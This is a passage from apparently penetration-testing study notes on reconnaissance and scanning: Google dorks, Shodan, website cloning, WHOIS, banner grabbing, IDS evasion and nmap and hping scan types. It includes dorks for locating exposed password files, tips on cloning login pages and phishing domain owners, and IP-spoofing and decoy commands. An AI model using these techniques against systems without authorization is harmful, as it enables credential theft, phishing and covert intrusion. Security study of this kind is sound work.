  - Helps you with
    - finding various types of files, including those that contain usernames and passwords.
    - VoIP footprinting using e.g. `intitle:"D-Link VoIP Router" "Welcome"` to find pages containing D-Link login portals
    - VPN footprinting using e.g. `filetype:pcf "cisco" "GroupPwd"` to find Cisco VPN files with passwords
  - 💡 Once you find password lists and you can guess similar ones as people usually have similar passwords.

#### metagoofil

- [Open-source](https://github.com/laramies/metagoofil) tool to extract metadata of public documents (pdf,doc,xls,ppt,etc) available in the target websites
- Also helps with [website footprinting](./website-footprinting.md)
- Flow
  1. Queries Google for different filetypes that may have metadata
     - Combining `site:` and `filetype` dorks
  2. Downloads the documents to disk and extracts the metadata of the file
  3. Parses files using different libraries for metadata (e.g. Hachoir, pdfminer)

## Online services

- Searching domain gives you some data about e.g. IP address, server, geolocation.
  - ❗Careful, can be fairly inaccurate, Generic results = No guarantee.
    - Far better to do your own search
    - Generic results = No guarantee
- [Website Watcher](https://www.aignes.com/) to get notified if a web page is changed.

### Reverse image search

- Allows tracking original source of an image
- E.g. • Google Image Search • TinEye Reverse Image Search • Yahoo Image Search

### Video search engines

- Search video related to target and extract video information
- E.g. • YouTube • Google Videos
- Video analysis tools include • YouTube DataViewer • EZGif • VideoReverser.com,

### Meta data engines

- Uses other search engines to build meta data of Internet
- Can give more information such as images, videos, blogs, news, articles about target
- E.g. • Startpage • MetaGer

### FTP search engines

- Search files on FTP servers
- E.g. • NAPALM FTP Indexer • Global FTP Search Engine
- Can help to find tax documents, business strategies etc.

### IoT search engines

- Can allow finding e.g. manufacturer details, geographical location, IP address, hostname, open ports
- E.g. [Shodan](#shodan), Censys, and Thingful
- See [Information Gathering | IoT security](./../18-iot-and-ot/iot-security.md#information-gathering)

#### Shodan

- Online [search engine](https://shodan.io)
- Finds specific types of IoT (webcams, routers, servers, etc.) connected to the internet using a variety of filters.
- 📝 You can e.g. search for open ports `port: 1433`

#### Censys

- Online [censys](https://censys.io/)
- 📝 Provides internet asset discovery i.e. scanning for unknown internet resources.
- Available on [search.censys.io](https://search.censys.io/)

### Netcraft

- Allows you search web by domain (DNS) through [search DNS](https://searchdns.netcraft.com/) service.
- Reports more information such as
  - If it uses HTML5 or flash (flash has many vulnerabilities)
  - `X-Frame-Options`: Do not allow this site to be rendered in an iframe
    - If it's allowed it allows for a phishing scheme such as [clickjacking](./../13-web-applications/hacking-web-applications.md#clickjacking)

### [CrimeFlare](http://www.crimeflare.org:82/cfs.html)

- Helps you find IP addresses behind a CDN (e.g. CloudFlare)
- **CDN**: Protects against DDoS, geolocation of servers by having different IP address.
- People often use real IP addresses before CDN, you can then look at past DNS records to find it.
# Website footprinting

- Hackers can map the entire website of the target without being noticed
- Gives information about:
  - Software
  - Operating system
  - Subdirectories
  - Contact information
  - Scripting platform
  - Query details

## Web spiders

- Programs designed to help in website footprinting
- Methodically browse a website in search of specific information.
- Information collected this way can help attackers perform social engineering attacks.

## Cookie examination

- Reveals what software that is running on the server and its behavior
- Possible to identify the scripting platforms.

## Examining website headers

- By examining the website headers, it is possible to obtain information about:
  - `Content-Type`
  - `Accept-Ranges`
  - Connection Status
  - `Last-Modified` Information
  - `X-Powered-By` Information
    - E.g. `ZendServer 8.5.0,ASP.NET`
  - Web Server Information
    - `Server` header can give you e.g. `Apache Server on CentOS`
- You can also analyze what website pulls
  - In debugging developer tool of most browsers (ctrl+shift+c) network section
  - For each request you can see remote IP address, and response headers for further analysis.

## Source code examination

### Comment analysis

- Possible to extract information from the comments
- In most of browsers you can right click and how source
- Walkthrough
  - In almost any browser: Right click => Show source
  - Check for HTML `<!-- comment -->` or JavaScript `// comment` comments
  - They are skipped by interpreters and compilers, only for human eyes
  - They can be instructions for other developers, notes for themselves
    - E.g. this library won't work as this element is not supported
      - Gives you clues about what technology (frameworks, languages) they use in the background

### Observing link and image tags

- Html links: `href=cloudarchitecture.io`
- Gain insight into the file system structure
- You can find e.g. a caching server and check vulnerabilities for that caching server.

## Cloning websites

- Also called **website mirroring**
- Helps in
  - browsing the site offline
  - searching the website for vulnerabilities
  - discovering valuable information and metadata.
- Can be protected with some detections based on e.g. page pull speed, behavior, known scrapers, AI.
- 💡 Good tool for setting up fake websites.
  - E.g. manually recreate login pages
  - If you control the DNS you can do a redirect.
- Allows you to save social media pages with this however most are protected, and illegal to clone.
- **Website monitoring tools** can send notifications on detected changes.
- 💡 Protection against fake websites
  - Always check domain name for misspelling
  - Make sure it's HTTP**S**, if it's not the data can be sniffed easily
    - Protects against someone taking over DNS
    - If the other part does not have the certificate, browser does not accept communication
  - Check SSL certificate authority, if it's changing, it can prompt a question.
    - Certificates expire usually in a year.

### Website cloning tools

- [`httrack`](https://github.com/xroche/httrack)
  - `httrack https://testwebpage.com` to copy
- 📝 `wget`
  - Basic utility that can be used for mirroring website
- Or one could manually copy paste source code of HTML + CSS

## Extracting metadata

- You can extract metadata of files (e.g. images) from a webpage
- Metadata can include
  - Owner of the file
  - GPS coordinates (images)
  - File type metadata
    - 🤗 Linux does not work with extensions e.g. `.pdf` but checks for the metadata.
    - Helpful as you will not be fooled by the extension

### Tools for extracting metadata

- **`hexdump`**
  - Dump file as ASCII and inspect manually
  - E.g. `hexdump -C TEST_DOCUMENT.docx`
  - ❗ Not recommended as it's pretty hard to extract information from binary.
- **[`ExifTool`](https://exiftool.org/)**
  - Reads + writes metadata of audio, video, PDF, docs etc.
  - E.g. `exiftool TEST_DOCUMENT.docx` would return something like `Microsoft Office Word`, `Version: 16.0`
- 📝 **[Metagoofil | Google hacking tool](./search-engines-and-online-resources.md#google-hacking-tools)**
  - Search for files that may have metadata for a website using Google and dump their metadata.
# WHOIS, GeoIpLocation and DNS interrogation

- All public records, accessing is not illegal.

## WHOIS

- Query and response protocol (port 43)
- Used for retrieving information about assigned Internet resources
- To get WHOIS information you can
  - Use different websites such as [whois.net](https://www.whois.net)
  - Use command-line: `whois cloudarchitecture.io`
- Two models
  - **Thick WHOIS**: information from all registrars for the specified set of data.
  - **Thin WHOIS**: limited information about the specified set of data.

### WHOIS results

- Domain details
- 📝 Domain owner details
  - Includes contact information of the owner
  - Can be hidden by a **WHOIS guard**
    - A proxy between the owner of the domain and who's accessing
    - Emails are usually still redirected to the owner.
      - 💡 Allows for e-mail phishing to learn who the actual owner is.
- Domain server
  - Who it's registered with e.g. [NameCheap.com](https://www.namecheap.com), [Gandi.net](https://www.gandi.net)
  - 💡 Site owner might have account in the server, and you can test passwords there.
- Net range
- Domain expiration
  - 💡 If auto-renewal fails, someone can transfer a domain to another address for malicious behaviors or just to sell it back to you.
- Creation and last update dates

### Regional internet registries

- WHOIS databases are maintained by the Regional Internet Registries (RIRs) such as:
  - **ARIN**: American Registry for Internet Numbers
  - **AFRINIC**: African Network Information Center
  - **APNIC**: Asia Pacific Network Information Center
  - **RIPE**: Réseaux IP Européens Network Coordination Centre
  - **LACNIC**: Latin American and Caribbean Network Information Center
- 🤗 Every ISP, hosting company etc. must be member of one of the registries to get IP addresses.

## IP geolocation

- Helps find location information about a target
- Includes country, city, postal code, ISP, and so on
  - Country is mostly accurate but city, coordinates are not but approximated
- Helps with social engineering attacks
- E.g. [GeoIpTool.com](https://geoiptool.com)

### DNS interrogation

- Collecting information about DNS zone data.
  - e.g. server types and their locations
- Includes information about key hosts in the network
- 📝 E.g. `host -t a cloudarchitecture.com`
  - `t` stands for type of domain record `a` gives A type of domain records.
  - Returns something likes this:

    ```txt
        cloudarchitecture.io has address 13.33.17.159
        cloudarchitecture.io has address 13.33.17.136
    ```

  - A records returns multiple IP addresses to increase speed and availability e.g. when hosting same content in multiple continents.
- See also [DNS enumeration](./../04-enumeration/dns-enumeration.md#dns-records)

#### Reverse DNS lookup

- Use one of IP addresses that's listed as an A
- `host 13.33.17.159`
  - Returns `159.17.33.13.in-addr.arpa domain name pointer server-13-33-17-159.arn53.r.cloudfront.net.`
- Multiple IP addresses can be tied to same domain
  - multiple domain addresses that are tied to the same IP

#### MX records

- Can be retrieved with `-t mx`
- Exposes which e-mail service they use
- Have a preference number to tell the SMTP client to try (and retry) each of the relevant addresses in the list in order, until a delivery attempt succeeds
  - The smallest preference number has the highest priority
- 💡 Once a hacker know who the e-mail provider is, he/she can create fake-mails using the provider to test e.g.
  - What kind of content is allowed
  - If a file be modified so it appears as PDF but make it executable
  - When an e-mail is labeled as spam / malicious
# Banner grabbing

- **Banner information** = name + version
- 📝 Used to gain banner information about
  - a computer (e.g. OS information)
  - the services running on its open ports (e.g. nginx server)
- Allows attackers to exploit known vulnerabilities and form an attack plan.
- Can be prevented by disabling banners and by hiding web page extensions.

## Passive banner grabbing

- Uses sniffing to determine the operating system.
- E.g. analyzing error messages, sniffing the traffic on the network, and examining page extensions.

## Active banner grabbing

- Sending a packet to the OS and then analyzing the responses.
- E.g. each OS have different TCP/IP stack implementations.
  - Values of TTL (time to live) and TCP window size in the IP header of the first packet are different in each OS.
- HTTP (80), FTP (21), SMTP (25) are common ports.
- Tools include `telnet`, [`nmap`](./scanning-tools.md#nmap), [`zgrap`](https://github.com/zmap/zgrab2) and `netcat`.

### Banner grabbing tools

- `nmap -O` for OS automatic fingerprinting, see also [`-O`: OS fingerprinting | Scanning tools](./scanning-tools.md#-o-os-fingerprinting)

#### Netcat

- Networking utility for reading from and writing to network connections using TCP or UDP
- 🤗 Also known as TCP/IP swiss army knife
- **FTP**
  - `nc 178.128.203.1 21`: Checks FTP port 21
    - 💡 You can use `nmap 178.128.203.1` to find out open ports.
  - Usual for FTP servers to return something like `Welcome to XXX FTP Server`
    - gives you insights about the owner and that it's a FTP server
- **HTTP**
  - E.g.
    1. `nc 178.128.203.1 80`
    2. Type e.g. `GET /index.html HTTP 1.0` or `HEAD / HTTP/1.1`
    3. Press `[ENTER]`
  - And also usually useful headers such as `Server: Apache/2.4.6 (CentOS)`
- [CryptCat](http://cryptcat.sourceforge.net/) is the encrypted version of netcat

#### Telnet

- Application protocol for bidirectional interactive text-oriented communication using a virtual terminal connection
- Historically used to access to a command-line interface on a remote host but now replaced with [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) as it's unsecure.
- Built into many operative systems as default
- Runs on port 23 so `telnet <target>` sends TCP to targets port 23.
  - You can send to different ports using `telnet`
- If port is open a banner response received looking like:
  - `Server: Microsoft-IIS/5.0 Date: Fri, 14 Aug 2009 1:14:42 GMT Content-Length:340 Content-Type: text/html`
# Bypassing IDS and firewall

- Read more on [Intrusion Detection System Detection | Nmap](https://Nmap.org/book/subvert-ids.html#avoid-ids)
- See also • [Evading IDS](../11-firewalls-ids-and-honeypots/evading-ids.md) and [Evading Firewalls](../11-firewalls-ids-and-honeypots/evading-firewalls.md)

## Packet fragmentation

- Also known as ***IP fragment scanning*** or ***IP fragmentation***
- 📝 Splitting up TCP header to several smaller (fragmented) packets when sending
- Server then reassembles them once all packets are received.
- Usually ignored by IDSes as processing them requires a lot of computer resources
- Any IP datagram can be fragmented: including UDP, TCP, ICMP, etc.
- See also [session splicing](./../11-firewalls-ids-and-honeypots/evading-ids.md#session-splicing) for HTTP header variant.
- Tools
  - [Nmap](https://Nmap.org/book/man-bypass-firewalls-ids.html):  `-f` flag e.g. `nmap -f <ip-or-host>`
    - splits the packets into 8 bytes or less after the IP header
    - Alternatively can use `--mtu` option allows to set bytes e.g. `--mtu 16`
  - [`fragroute`](https://tools.kali.org/information-gathering/fragroute)
    - Usage: `fragroute <domain-name>`
    - Intercept, modify, and rewrite egress traffic to use fragments

## Source routing

- Also called ***path addressing***
- Specifying which path the malformed packet will take to get to the target host.
- Used to skip routes (routers/gateways) where firewalls exist
  - Disregards what route tables say
- ❗ Almost always blocked
- Done by modifying IP address field in IP Options field
  - 
- Using Nmap:
  - **Loose routing**
    - Specifying packet to be loose source routed through given IP way points
    - E.g. `--ip-options "L 192.168.0.7 192.168.30.9"`
  - **Strict routing**
    - You will have to specify every single hop along the path.
    - E.g.  `--ip-options "S 192.168.0.7 192.168.0.9 .. 192.168.30.9"`
- See also [IP address spoofing through source routing | Session hijacking](../13-web-applications/session-hijacking.md#ip-address-spoofing-using-source-routing).

## IP address decoy

- Also known as ***decoy scan***
- All packets originate from the scanning machine, but some have spoofed source addresses.
- **Pros**: Helps to confuse port scan detection
- **Cons**
  - Does not offer any information beyond a regular scan.
  - Slows down the scanning process
- Using Nmap:
  - `nmap -D decoy1,decoy2,ME,decoy3... <target>`: Manual list with custom positioned `ME`
  - or `nmap -D RND:10 <target>` to randomize 10 decoy IP addresses

## IP address spoofing

- Used to make packet appear to come from someone else
- Done by changing address information in IP packet header field
- Replies go back to the spoofed address not to the attacker
- Mostly used for DoS attacks
- Tools:
  - hping: `hping3 <target> -a <spoofed-ip>`
  - Nmap: `nmap <target> -S <spoofed-ip>`

### IP address spoofing detection techniques

- **Direct TTL probes**
  - Ping to suspect IP
  - If `TTL` in reply is not same as suspect packet, it may be spoofed
- **IP Identification Number**
  - Ping to suspect IP
  - `IPID` should be close to but higher than suspect packet
  - OS increases IP incrementally for each packet sent
- **TCP Flow Control Method**
  - **Sliding window protocol**
    - In TCP, for each packet `ACK` is expected back before sending another packet.
    - *Window* packets are allowed to be sent without having to wait for an ACK.
    - Allows packets to arrive out of order
    - Window size field in TCP header
      - Tells maximum amount of data sender can transmit without waiting for `ACK`
      - **Windows update packet** is used to negotiate a different window size.
  - Attacker that uses spoof IPs do not receive window size information
  - If victims receives data packets beyond the window size, they are spoofed packets

### IP address spoofing countermeasures

- Use encryption
  - Best prevention against IP spoofing attacks
- Avoid trust relationships
  - Also known as **no trust architecture**
  - Do not rely on IP-based authentication
  - Test all packets, even when they come from one of your trusted hosts
  - E.g. through password authentication, OAuth etc.
- Use firewalls and filtering mechanisms
- Use random initial sequence numbers (ISN)
  - As `SYN` is `ISN+1` it allows malicious connections.
  - E.g. if it's based on timed counter it's predictable
- Ingress filtering
  - Blocking incoming traffic based [access control lists (ACLs)](./../11-firewalls-ids-and-honeypots/firewall-overview.md#access-control-lists-acls)
  - Good against blocking unauthorized access
- Egress filtering against insider attacks
  - Blocking outcoming traffic
  - Good against insider attacks where e.g. malware can send information
- [SYN flooding countermeasures](./../13-web-applications/denial-of-service.md#syn-flood-countermeasures)

## Encryption

- 📝 Encryption over e.g. SSL/TLS or SSH is a good evasion as it "cripples" payload inspection.
- One way to be able to inspect is through **MITM attacks**
  1. The server-side encryption is terminated at the inspecting firewall
  2. The firewall re-encrypts the client-side connection and passes data in between.
- Other solution is to use **Network Traffic Analysis (NTA)**
  - It focuses more on unencrypted metadata rather than encrypted payload.
  - It uses behavioral analysis to sort through network traffic and identify dangerous or suspicious traffic based on what the traffic/host does on the network.

## Proxy servers

- Acts as an intermediary for requests from clients and servers
- `client <--> proxy <--> server`
- You can use [free public proxies](http://freeproxylists.net/) for educational purposes
  - ❗ Careful with public proxies as they can be malicious e.g. inject stuff into your traffic.
  - 💡 Have your own proxies set-up, see [steps for creating a proxy server](./../11-firewalls-ids-and-honeypots/honeypot.md#setting-up-a-proxy-server-as-honeypot)

### Usage by defenders

- As a firewall to protect internal network
- As a IP address multiplexer hiding IP addresses of internal servers.
- Anonymize web surfing to some extend e.g. with VPN services or [Tor](https://www.torproject.org/)
  - Mobile tools include [Shadowsocks](https://shadowsocks.org/en/index.html) (cross-platform sock5 proxy), [proxydroid](https://github.com/madeye/proxydroid) (http / sock4 / sock5 on Android)
- Filtering unwanted content such as ads
- Save bandwidth on local networks

### Usage by attackers

- To conceal the real source of the scan.
- To remotely access intranets/corporate resources using victim as proxy
- To do man-in-the-middle attacks by redirecting user traffic to the proxy
- To sniff user data
- Tools include
  - [Parox proxy](https://tools.kali.org/13-web-applications/paros) (outdated), or updated fork of it: [OWASP ZAP](https://www.zaproxy.org/)

#### Proxy chaining

- Helps to increase anonymity by using two or more proxies in chain:
  - like `your_host <--> proxy1 <--> proxy2 <--> target_host`

##### ProxyChains

- 📝 [Open source](https://github.com/rofl0r/proxychains-ng) unix tool to setup a proxy.
- Download a file using e.g. `proxychains4 wget <fileurl>`
- Configure through its configuration file `vim /etc/proxychains.conf`
  - E.g.

    ```txt
      sock4 127.0.0.1 9050
      http 159.65.133.175 3128
      http 50.198.134.65 80
    ```

### Anonymizer

- Proxy server that acts as an intermediary and privacy shield between a client computer and Internet provider
- Use-cases include
  - Bypassing internet censors
  - Ensuring privacy
  - Having protection against online attacks
  - Bypassing IDS and firewall rules (of e.g. companies or schools)

#### Types of anonymizers

- Networked anonymizers
  - Information is transferred through network of computers
  - **Pros**: Harder to analyze traffic
  - **Cons**: Nodes in the sequence can be compromised
- Single-point anonymizers
  - Information is transferred through single website
  - **Pros**: Protects IP and related information
  - **Cons**: Less resistance to sophisticated analysis

#### Anonymizer tools

- OS
  - [Tails](https://tails.boum.org/): Live OS to protect against surveillance and censorship
  - [Whonix](https://www.whonix.org/): Designed to run in VMs to increase security and privacy
- Software
  - [Invisible Internet Project (I2P)](https://geti2p.net)
  - [TunnelBear](https://www.tunnelbear.com)
- Mobile apps
  - [Orbot](https://guardianproject.info/apps/org.torproject.android/): Proxy with Tor
  - [Psiphon](https://psiphon3.com/en/index.html): Tunnel through VPN on Android

##### Tor

- Free and open-source software for enabling anonymous communication
- 📝 Stronger privacy than single [node proxies](#proxy-servers) or [proxy chains](#proxy-chaining) without encryption
- ❗ Anonymous as long as guard and exit nodes are not the same party and the traffic is over HTTPs
- VPN / Proxies (non-chained): Single point of failure
  - Provider knows who you are and what you browse
  - Provider may inject packets (e.g. ads) into traffic or record personal details.
- Tor traffic goes through at least 3 different servers (up to 5000) before destination
  - Provides separate encryption layer for each server
  - An observer cannot read or modify packets
  - Second server (middle relay) passes encrypted data without knowing more than its predecessor and descendant
  - Weaknesses
    - ❗ A bad first server (guard node) knows your IP but not what you sent or where.
    - ❗ A bad third server (exit node) sees your traffic but cannot know who sent the traffic.
      - ❗ Exit node can eavesdrop if the packet is not using HTTPS but HTTP
    - ❗ Will be no privacy if both the entry and exit nodes are hijacked by same hostile party.

##### I2P (Invisible Internet Project)

- Peer-to-peer alternative to [Tor](#tor)
- Each participant acts both as a client and as a router
# Scanning networks overview

- Process of obtaining additional information about hosts, ports and services in network
- More detailed reconnaissance
- Purpose is to identify vulnerabilities in communication channels and then create an attack plan.
- Different techniques are used to identify hosts, ports, and services in the target network.
- Used by administrators to verify security policies, monitoring uptime etc.
- Can craft custom packets using different tools
  - E.g. [Colasoft Packet Builder](http://www.colasoft.com), [NetScanTools Pro](https://www.netscantools.com), [Packeth](http://packeth.sourceforge.net)

## Scanning types

- **Port scanning**: to list open ports and services
- **Network scanning**: to list IP addresses
- **Vulnerability scanning**: to discover the presence of known vulnerabilities

## Scanning in IPv6 Networks

- IP supports more addresses
  - Bigger search space
  - More difficult and complex than IPv4
  - Harder to do ping sweeps
- Supports large number of hosts in a subnet.
  - Probing takes longer time
- 💡 Attacker should find addresses from logs, e-mails, traffics etc. to identify addresses.

## Common ports to scan

- 📝 List of TCP and UDP port numbers

  | Port | Protocol | Service |
  | ---- |:--------:| ------- |
  | 21 | TCP | [FTP (File Transfer Protocol)](./../15-cryptography/encrypting-communication.md#ftp-file-transfer-protocol) |
  | 22 | TCP | [SSH (Secure Shell)](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) |
  | 23 | TCP | [Telnet](banner-grabbing.md#telnet) |
  | 25 | TCP | [SMTP (Simple Mail Transfer Protocol)](./../04-enumeration/enumeration-overview.md#smtp) |
  | 53 | TCP/UDP | [DNS (Domain Name Server)](./../04-enumeration/dns-enumeration.md#dns) |
  | 80 | TCP | HTTP (Hypertext Transfer Protocol) ❗ HTTP/3 will run over UDP |
  | 123 | TCP | [NTP (Network Time Protocol)](./../04-enumeration/enumeration-overview.md#ntp) |
  | 443 | TCP/UDP | HTTPS | Hypertext Transfer Protocol Secure (HTTPS) |
  | 500 | TCP/UDP | [IKE/IPSec (Internet Key Exchange / IPSec)](./../15-cryptography/tunneling-protocols.md#ipsec) |
  | 631 | TCP/UDP | IPP (Internet Printing Protocol) |
  | 3389 | TCP/UDP | RDP (Remote Desktop Protocol) |
  | 9100 | TCP/UDP | AppSocket/JetDirect (HP JetDirect, Printer PDL Data Stream) |

- Read more on [IANA ports list](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.txt)
- See also • [Port monitoring | Malware analysis](./../07-malware/malware-analysis.md#port-monitoring) • [Common ports and services to enumerate | Enumeration](./../04-enumeration/enumeration-overview.md#common-ports-and-services-to-enumerate)

## Drawing and mapping out network topologies

- Useful for identifying and understanding the topology of the target network.
  - The diagram can tell the attacker how firewalls, IDSes, routers, and other devices are arranged in the network
- Information can be used for vulnerability discovery and exploit.
- A popular tool is *`zenmap`*: A GUI for [`nmap`](./scanning-tools.md#nmap)
  - 
- E.g. scanning network in a coffee shop. Run `ipconfig` (windows) to get private IP address and subnet range. Then you can scan and create a map.
# Scanning techniques

- Used to
  - Identify open ports also i.e. **port scanning**
  - Identify which hosts or are alive i.e. **host discovery**
- Same techniques can be used for both port scanning and host scanning
  - But can require different tools or commands
  - See: Nmap [port scanning](./scanning-tools.md#-s-port-scan-options) vs [host discovery](./scanning-tools.md#-p-ping-host-discovery-options) commands

## Techniques per protocol

### Scanning ICMP

- Also called **ping scan** or **ICMP scan**
- Typically used for checking if a host is alive or has errors
- 💡 📝 It saves time before running a port scan
- ❗ Often incoming ICMP requests are disabled by firewalls.
- On Network Layer 3, so does not have port abstraction like TCP/UDP (Transport layer 4)
- In Nmap, ping commands start with `-P*` e.g. `-PE` for `ICMP Echo`
- **Round-trip time**
  - Time it takes for a packet to make a complete trip
- If blocked, usually returns no response or sometimes ICMP errors such as type 3 code 13 (destination unreachable: communication administratively prohibited)

#### Broadcast ICMP ping

- Sends packet to every possible address on the network
- E.g. `ping -b 192.168.135.255` (subnet broadcast)
  - Pings to `192.168.129.19`, `192.168.129.20`, `192.168.129.21`...
  - Or all broadcast through `ping -b 192.168.129.255`
    - Alive hosts will populate local arp table, can be seen using `arp -a`
- Usually discarded and a useless method
- See also [Smurf attack | Denial of Service](./../13-web-applications/denial-of-service.md#smurf-attack)

#### ICMP ping packet types

- **Echo**
  - Sends `ICMP ECHO` (type 8) expecting `ICMP ECHO` reply
  - Also known as ***ICMP echo scanning*** or [***ICMP ping sweep***](#icmp-ping-sweep)
  - 📝 **Tools**
    - Nmap: `-PE`
    - hping: `hping3 -1 <target>`
- **Timestamp**
  - Sends `ICMP TIMESTAMP` (type 13)
  - **Tools**
    - Nmap: `-PP`
    - hping: `hping3 -1 <target> --icmptype 13`
- **Address mask**
  - Sends `ICMP ADDRESS MASK` (type 17)
  - Tools
    - Nmap: `-PM`
    - hping: `hping3 -1 <target> --icmptype 17`

#### ICMP ping sweep

- Also called **ICMP sweep** or **ICMP echo scanning**
- 📝 Used to determine active hosts in target network range.
- Tools include
  - [Angry ip](https://angryip.org/)
  - [Nmap](https://Nmap.org/book/host-discovery-techniques.html): `nmap -sn 192.168.0.*`
    - or `nmap -sn <ip-address>/<subnet-range>`
    - or `nmap -sn 192.168.0.1-30` to scan e.g. between `1-30` in last octet
    - `-sn`: (optional) skip port scan

### Scanning TCP

#### TCP connect

- Also known as **full open scan** or **TCP Connect() scan**
- Used for detecting open ports upon the completion of the three-way handshake.
- Works by establishing a full connection and then dropping it by sending a RST packet.
  - 
- **Pros**
  - 📝 Accurate, most reliable
  - Requires no additional user privileges
  - Allows scanning behind a firewall.
- **Cons**
  - 📝 Easily detectable by IDSes and logged
- 💡 Use [SYN](#syn-scanning) which would be faster and stealthier
- Tools
  - [Nmap](https://Nmap.org/book/scan-methods-connect-scan.html): `nmap -sT <ip-or-host>`

#### SYN scanning

- 📝 Also known as ***TCP SYN ping***, ***SYN stealth***, ***stealth scan***, ***half-open scan*** or ***TCP ping*** scan
- Default and most popular scan
- Works by resetting the TCP connection before the three-way handshake is completed, which in turn makes the connection half open.
  - 
- **Pros**
  - Fast
  - Reliable
  - Works on any compliant TCP stack
  - Stealthy because it never completes TCP connections (can bypass firewalls and logging)
- **Cons**
  - Require root privileges
  - Rulesets block many SYN scan attempts
- Tools
  - 📝 [Nmap](https://Nmap.org/book/synscan.html): `-PS` (host discovery) or `-sS` (port scan)
  - Hping: `hping3 -8 <port-list e.g. 50-60> –S <ip-address> –V`

#### RFC 793 scans

- 📝 According to [RFC 793](https://www.rfc-editor.org/rfc/rfc793.txt), any packet not containing `SYN`, `RST`, or `ACK` bits will result in
  - `RST` if the port is closed
  - no response the port is open
- Works by sending TCP probe packets with or without `SYN`, `RST`, `ACK` flags.
- **Pros**
  - Very stealthy (more than [SYN](#syn-scanning)) against IDS and logging systems
  - Avoids TCP three-way handshake
- **Cons**
  - Require root privileges
  - Unreliable (false positives) against systems does not follow the RFC
    - Unix-only
    - Ineffective against Windows and many IBM/Cisco devices
- 🤗 Using Nmap, one could utilize `--scanflags` to test with permutations of each case (total: 8) to check for `RST` response, but there are easier ways for most popular combinations: • [XMAS](#xmas-scan) • [NULL scan](#null-scan) • [FIN scan](#fin-scan)

##### XMAS Scan

- 📝 Works by sending a TCP frame with `FIN`, `URG`, and `PUSH` flags set.
- 🤗 **Christmas tree packet**: packet with every option set, like bulbs on a Christmas tree
- 
- Tools
  - Hping: `hping3 -F -P -U <ip-address> -p <port-number>`
    - `-F` for `FIN`, `-P` for `PUSH`), `-U` for `URG`
  - 📝 [Nmap](https://Nmap.org/book/scan-methods-null-fin-xmas-scan.html): `-sX`'

##### Inverse TCP flag scan

- An inverse TCP scan has `PSH` or `URG` or `FIN` or none flag set, i.e. a single flag or no flag.
- As opposed to [XMAS](#xmas-scan) that sets `PSH` and `URG` and `FIN`, i.e. all three flags at once

###### NULL Scan

- Also known as ***NULL probe***
- Does not set any bits (TCP flag header is 0)
- [Nmap](https://Nmap.org/book/scan-methods-null-fin-xmas-scan.html): `-sN`

###### FIN Scan

- Also known as ***FIN probe***
- Sets just the TCP FIN bit.
- [Nmap](https://Nmap.org/book/scan-methods-null-fin-xmas-scan.html): `-sF`

#### ACK scanning

- Also known as ***ACK flag scanning***, ***ACK flag probe scanning*** or ***TCP ACK scan***
- Used to detect existence of firewalls, cannot detect open ports
- Works by sending TCP packet with `ACK` flag set.
  - `ACK` (acknowledgment) is used to acknowledge the successful receipt of a packet
  - 
- **Pros**
  - Difficult to log, avoids IDS detection
  - Helps detecting existence of stateful firewalls
    - As they would not allow `ACK` without `SYN`, see [TCP sessions](./tcpip-basics.md#tcpip-sessions)
- **Disadvantages**
  - Relies on BSD network code bug in older versions
  - Slow
- **Tools**
  - [Nmap](https://Nmap.org/book/scan-methods-ack-scan.html): `-PA` (host discovery) or `-sA` (port scan)
  - Hping: `hping3 –A <ip-address> –p <port>`

##### ACK Classification

- Two fields are inspected to classify `RST` response: `WINDOW` and `TTL`
- **`TTL`**
  - It's open if TTL has less than `64` while others have higher values

    ```txt
      packet 1: host X.X.X.X port 20: F:RST -> ttl: 70 win: 0 => closed
      packet 2: host X.X.X.X port 21: F:RST -> ttl: 70 win: 0 => closed
      packet 3: host X.X.X.X port 22: F:RST -> ttl: 40 win: 0 => open
      packet 4: host X.X.X.X port 23: F:RST -> ttl: 70 win: 0 => closed
    ```

- **`WINDOW`**
  - It's open if it has non-zero value.
  - Works for older BSD and UNIX but has been patched

  ```txt
    packet 1: host X.X.X.X port 20: F:RST -> ttl: 64 win: 0 => closed
    packet 2: host X.X.X.X port 21: F:RST -> ttl: 64 win: 0 => closed
    packet 3: host X.X.X.X port 22: F:RST -> ttl: 64 win: 512 => open
    packet 4: host X.X.X.X port 23: F:RST -> ttl: 64 win: 0 => closed
  ```

#### IDLE scan

- Also known as ***TCP Idle Scan***, ***IDLE header scan***, ***header scan***, ***IDLE/IPID scan***
- Allows for blind port scanning (without sending any packet with own IP)
- Utilizes IP address of a zombie machine through spoofed packets
- 🤗 Found by author of [hping2](./scanning-tools.md#hping) tool
- 📝 Flow
  1. Probe the zombie's IP ID and record it.
     - **IP ID**
       - Every IP packet on the Internet has a fragment identification number
       - Incremented by OSes for each packet sent
     - Zombie should be
       - idle as no other traffic would increase the traffic
       - assigning IP ID packets incrementally on global level instead of per-host basis.
  2. Forge a `SYN` packet from the zombie and send it to the desired port on the target.
  3. Probe the zombie's IP ID again.
     - If it's increased compared to one in step 1, port is open (it has received)
- **Pros**
  - Ultimate stealth scan as attackers IP would not be revealed
  - Can be used for framing as IDS will report zombie as the attacker
- **Cons**  
  - It takes far longer
  - Many ISPs implement egress filtering to prevent the packet spoofing
- **Tools**
  - [Nmap](https://Nmap.org/book/idlescan.html): `nmap -Pn -sI <zombie-ip/domain> <target-ip/domain>`
    - 📝 `-sI`: Idle scan
    - `-Pn`: no ping to be stealthy

### Scanning UDP

- Connectionless stream protocol, so no handshakes
- UDP is used by e.g. DNS (port 53), SNMP (port 161/162), and DHCP (port 67/68)

#### UDP Scanning

- Also known as ***UDP ping***, ***UDP/ICMP error scan***, ***UDP port scan*** or ***UDP ICMP_PORT_UNREACHABLE scan***
- Exploits UDP behavior where the receiver sends an ICMP packet with error code when a port is unreachable.
- No response is interpreted as "open" or "filtered" behind firewall
- **Pros**
  - Avoids TCP IDS
  - Scans non-TCP ports that are quite common
- **Cons**
  - Provides port information only
  - ICMP is rate-limited by Linux kernel however not by Windows
  - Require root privileges
  - Slower and more difficult than TCP
- **Tools**
  - Hping: `hping3 -2 <ip-address> –p <port>`
  - 📝 [Nmap](https://Nmap.org/book/scan-methods-udp-scan.html): : `-PU` (host discovery) or `-sU` (port scan)

## Other techniques

### List Scanning

- Performing a reverse DNS resolution to identify the names of the hosts.
- No packets are sent to hosts
- **Pros**
  - Sanity check to ensure that target IP addresses are proper
  - Stealthy, unobtrusive, does not trigger IDS alerts
- Tools
